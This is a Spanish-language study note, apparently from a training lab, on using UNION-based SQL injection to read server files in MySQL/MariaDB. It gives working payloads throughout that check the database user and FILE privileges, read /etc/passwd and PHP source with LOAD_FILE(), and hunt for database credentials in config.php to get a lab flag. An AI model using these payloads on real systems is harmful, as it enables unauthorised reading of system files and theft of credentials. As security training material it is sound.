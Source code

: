 ### Lectura de Archivos con SQL Injection

---

### **Introducción**

Una inyección SQL no solo permite acceder a datos en las bases de datos, sino que también puede aprovecharse para realizar operaciones adicionales, como **leer archivos del sistema** e incluso, en ciertos casos, obtener ejecución remota de código.

---

### **Privilegios necesarios**

1. **Lectura de archivos**:
    
    - Requiere el privilegio `FILE` en MySQL/MariaDB.
    - El usuario del sistema operativo que ejecuta MySQL debe tener permisos para acceder al archivo.
2. **Escritura de archivos**:
    
    - Requiere privilegios de nivel administrador (como `SUPER` o `FILE`).

Por lo tanto, antes de intentar leer archivos, es importante verificar:

- **El usuario actual en el DBMS**.
- **Los privilegios asociados al usuario**.

---

### **Paso 1: Identificar el usuario actual**

Podemos identificar el usuario actual en la base de datos con las siguientes consultas:

#### **Consultas SQL**

`SELECT USER(); SELECT CURRENT_USER(); SELECT user FROM mysql.user;`

#### **Payloads con inyección SQL**

`' UNION SELECT 1, USER(), 3, 4-- -`

O:

`' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -`

**Salida esperada**:
![[Pasted image 20250118130338.png]]
- Si el usuario es `root`, es probable que tenga privilegios avanzados.

---

### **Paso 2: Verificar privilegios**

Para saber si el usuario tiene privilegios de superadministrador (`SUPER`) o de lectura de archivos (`FILE`):

#### **Consultas SQL**

1. **Privilegios de superusuario**:
    
    sql
    
    CopiarEditar
    
    `SELECT super_priv FROM mysql.user WHERE user="root";`
    
    **Payload**:
    
    sql
    
    CopiarEditar
    
    `' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`
    ![[Pasted image 20250118130352.png]]

2. **Todos los privilegios del usuario**:
    
    sql
    
    CopiarEditar
    
    `SELECT grantee, privilege_type FROM information_schema.user_privileges;`
    
    **Payload**:
    
    
    
    `' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`    ![[Pasted image 20250118130359.png]]
    
    

**Salida esperada**:

- Si el privilegio `FILE` está presente, podemos intentar leer archivos del sistema.

---

### **Paso 3: Leer archivos con `LOAD_FILE()`**

La función `LOAD_FILE()` permite leer el contenido de un archivo en MySQL/MariaDB. Se utiliza de la siguiente manera:

#### **Consulta SQL directa**

`SELECT LOAD_FILE('/ruta/al/archivo');`

#### **Payload con inyección SQL**

1. **Ejemplo para leer `/etc/passwd`**:
    
    `' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -`
    
![[Pasted image 20250118130721.png]]
    
2. **Ejemplo para leer el código fuente de `search.php`**:
    
    sql
    
    CopiarEditar
    
    `' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -`
    

**Notas**:

- El contenido del archivo leído puede mostrarse en el navegador o estar accesible inspeccionando el código fuente del HTML (Ctrl + U).
- El archivo debe estar accesible al usuario del sistema operativo que ejecuta MySQL.

---

### **Paso 4: Inspección de archivos**

Al leer un archivo como `/var/www/html/search.php`, podemos inspeccionar el código fuente de la aplicación en busca de:

- **Credenciales de bases de datos**.
- **Rutas importantes de archivos**.
- **Vulnerabilidades adicionales**, como inyecciones o malas configuraciones.

---

### **Ejemplo completo**

1. **Identificar el usuario actual**:
    
    sql
    
    CopiarEditar
    
    `' UNION SELECT 1, USER(), 3, 4-- -`
    
2. **Verificar privilegios**:
    
    sql
    
    CopiarEditar
    
    `' UNION SELECT 1, privilege_type, grantee, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`
    
3. **Leer archivos específicos**:
    
    - **Archivo del sistema**:

```sql
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -
```

        
    - **Archivo del código fuente**:
   
``` SQL
' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -
```

**The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.**

---

### **Precauciones**

1. **Permisos del usuario del sistema operativo**:
    
    - Asegúrate de que el usuario que ejecuta MySQL tenga permisos para acceder al archivo deseado.
2. **Contenido del archivo**:
    
    - Si el archivo contiene código HTML o PHP, inspecciónalo directamente desde la fuente del navegador.
3. **Límite de privilegios**:
    
    - Sin el privilegio `FILE`, no será posible leer archivos.

---

### **Resumen**

- **`LOAD_FILE()`** es una función poderosa en MySQL/MariaDB que permite leer archivos directamente desde el servidor.
- Para utilizar esta función, el usuario del DBMS debe tener el privilegio `FILE`.
- Una vez que se lee un archivo, puedes inspeccionar su contenido para encontrar datos sensibles, como credenciales o información del sistema.
- Este enfoque puede ayudar a identificar más vulnerabilidades y formas de explotación.

### EJERCICIO

 We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

En el php obtenido en el ultimo apartado podemos observar que $conn no esta definido, por lo que se tiene q definir en otra parte, si revisamos el html podemos ver q se importa un config.php,

![[Pasted image 20250118131952.png]]
![[Pasted image 20250118132134.png]]

si realizamos la query correspondiente para consultar dicho archivo 
podemos observar la flag

![[Pasted image 20250118132219.png]]